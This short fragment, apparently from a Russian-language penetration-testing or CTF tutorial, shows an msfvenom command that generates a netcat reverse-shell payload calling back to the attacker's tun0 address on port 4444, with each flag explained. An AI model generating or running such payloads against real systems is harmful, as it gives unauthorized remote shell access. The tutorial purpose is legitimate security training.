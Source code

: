 ```bash
msfvenom -p cmd/unix/reverse_netcat lhost=tun0 lport=4444 R
```
-p = полезная нагрузка
lhost = IP-адрес нашего локального хоста (это IP-адрес **вашей** машины)
lport = порт для прослушивания (это порт на **вашей** машине)
R = экспорт полезной нагрузки в необработанном формате

